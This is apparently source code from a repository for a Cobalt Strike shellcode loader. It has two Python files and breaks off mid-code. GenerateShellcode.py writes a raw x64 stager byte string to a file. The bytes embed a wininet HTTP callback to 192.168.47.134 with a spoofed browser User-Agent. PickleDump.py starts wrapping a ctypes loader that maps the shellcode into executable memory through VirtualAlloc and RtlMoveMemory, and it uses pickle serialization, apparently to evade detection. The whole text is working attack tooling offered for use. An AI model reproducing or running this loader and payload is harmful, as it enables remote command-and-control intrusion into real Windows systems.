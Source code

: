 #### GenerateShellcode.py

```python
#将下述的代码替换成CobaltStrike的Shellcode
shellcode = b'\xfc\x48\x83\xe4\xf0\xe8\xc8\x00\x00\x00\x41\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48\x01\xd0\x66\x81\x78\x18\x0b\x02\x75\x72\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b\x12\xe9\x4f\xff\xff\xff\x5d\x6a\x00\x49\xbe\x77\x69\x6e\x69\x6e\x65\x74\x00\x41\x56\x49\x89\xe6\x4c\x89\xf1\x41\xba\x4c\x77\x26\x07\xff\xd5\x48\x31\xc9\x48\x31\xd2\x4d\x31\xc0\x4d\x31\xc9\x41\x50\x41\x50\x41\xba\x3a\x56\x79\xa7\xff\xd5\xeb\x73\x5a\x48\x89\xc1\x41\xb8\x50\x00\x00\x00\x4d\x31\xc9\x41\x51\x41\x51\x6a\x03\x41\x51\x41\xba\x57\x89\x9f\xc6\xff\xd5\xeb\x59\x5b\x48\x89\xc1\x48\x31\xd2\x49\x89\xd8\x4d\x31\xc9\x52\x68\x00\x02\x40\x84\x52\x52\x41\xba\xeb\x55\x2e\x3b\xff\xd5\x48\x89\xc6\x48\x83\xc3\x50\x6a\x0a\x5f\x48\x89\xf1\x48\x89\xda\x49\xc7\xc0\xff\xff\xff\xff\x4d\x31\xc9\x52\x52\x41\xba\x2d\x06\x18\x7b\xff\xd5\x85\xc0\x0f\x85\x9d\x01\x00\x00\x48\xff\xcf\x0f\x84\x8c\x01\x00\x00\xeb\xd3\xe9\xe4\x01\x00\x00\xe8\xa2\xff\xff\xff\x2f\x34\x69\x66\x5a\x00\x8b\xee\xfe\xb2\x85\xf9\x84\x0d\x0b\xb4\x2a\x01\x70\x03\x32\x9a\xb3\x1c\x3a\x7e\xae\xeb\x8c\x0f\xc9\xcf\x42\x59\x2b\x25\x92\xc7\x5e\x25\xc5\x1c\x8f\xb3\xe7\x3c\xec\x81\xec\xce\xf3\xa9\xec\xd9\x4a\x16\x97\x0a\xee\x5c\x84\x48\xae\x0d\x93\x84\x99\x57\xb6\xa3\xbc\x48\x1e\x6b\xe4\xc0\xce\x75\x1a\x00\x55\x73\x65\x72\x2d\x41\x67\x65\x6e\x74\x3a\x20\x4d\x6f\x7a\x69\x6c\x6c\x61\x2f\x34\x2e\x30\x20\x28\x63\x6f\x6d\x70\x61\x74\x69\x62\x6c\x65\x3b\x20\x4d\x53\x49\x45\x20\x38\x2e\x30\x3b\x20\x57\x69\x6e\x64\x6f\x77\x73\x20\x4e\x54\x20\x36\x2e\x30\x3b\x20\x54\x72\x69\x64\x65\x6e\x74\x2f\x34\x2e\x30\x29\x0d\x0a\x00\x2c\x1e\x3c\x4d\x87\x66\x5b\xef\x25\xe3\x97\xde\xcc\xaa\xab\xd8\x9d\x84\x62\x8b\x2e\x04\x9c\x59\x41\x9f\x0a\x20\xe8\xd5\x2e\xe8\x91\x5d\x2c\xca\x75\x13\x8d\x18\xe8\xc9\xf5\x70\x7d\x3c\x57\x94\xb0\x5f\xe0\x7a\xb0\x58\x7f\x9e\xa8\xa2\x40\x5e\x9a\x8f\x9f\xb8\x28\xe3\x43\x8d\x28\x87\x72\xa9\x21\x9d\x47\x3e\x24\x38\xf8\x49\xd5\x5c\x99\xf7\x17\xc2\x6e\x84\x71\x9c\xf0\x56\x90\xce\xe7\x25\x19\x38\xc9\x5b\xaa\x1c\x25\x4c\x8b\x1c\x7c\x2a\x77\x91\x64\xae\x3d\xbe\x41\xce\xbb\xd3\xac\xd7\x5e\x4a\x8a\x83\x4f\xc8\xe9\x34\x98\x1c\x2b\x43\x27\xbb\x44\xd7\x89\x84\xb9\x10\xb6\x6b\x30\xeb\x04\x7d\xe8\x98\xb2\x46\xaa\x86\xda\x71\x87\x80\xe2\x3e\x38\x5a\x93\xbb\x06\xa3\x28\xd8\xcb\x38\xfb\xfd\xa3\x35\xd9\xe6\x5d\x8b\xf8\x27\xd8\x13\xe2\x29\xfa\xe9\x4a\x27\x06\xab\xc1\x16\xe1\xc5\xa2\xad\x57\x96\x21\x93\xbe\xe1\x12\x18\x54\x76\xba\x5f\xd9\x61\x55\xc0\x87\xfe\x21\x52\x36\xba\x55\x51\x17\x2d\x40\x21\x39\x20\x8e\x00\x41\xbe\xf0\xb5\xa2\x56\xff\xd5\x48\x31\xc9\xba\x00\x00\x40\x00\x41\xb8\x00\x10\x00\x00\x41\xb9\x40\x00\x00\x00\x41\xba\x58\xa4\x53\xe5\xff\xd5\x48\x93\x53\x53\x48\x89\xe7\x48\x89\xf1\x48\x89\xda\x41\xb8\x00\x20\x00\x00\x49\x89\xf9\x41\xba\x12\x96\x89\xe2\xff\xd5\x48\x83\xc4\x20\x85\xc0\x74\xb6\x66\x8b\x07\x48\x01\xc3\x85\xc0\x75\xd7\x58\x58\x58\x48\x05\x00\x00\x00\x00\x50\xc3\xe8\x9f\xfd\xff\xff\x31\x39\x32\x2e\x31\x36\x38\x2e\x34\x37\x2e\x31\x33\x34\x00\x12\x34\x56\x78'
with open('shellcode.txt','wb') as f:
    f.write(shellcode) 
```



#### PickleDump.py

```python
#pickle dump
import pickle

shellcode="""
import ctypes

f= open('shellcode.txt', 'rb')
shellcode= f.read()
shellcode= bytearray(shellcode)
ctypes.windll.kernel32.VirtualAlloc.restype= ctypes.c_uint64
ptr= ctypes.windll.kernel32.VirtualAlloc(ctypes.c_int(0),ctypes.c_int(len(shellcode)), ctypes.c_int(0x3000),ctypes.c_int(0x40))
buf= (ctypes.c_char *len(shellcode)).from_buffer(shellcode)
ctypes.windll.kernel32.RtlMoveMemory(
   ctypes.c_uint64(ptr),
   buf,
   ctypes.c_int(len(shellcode))
```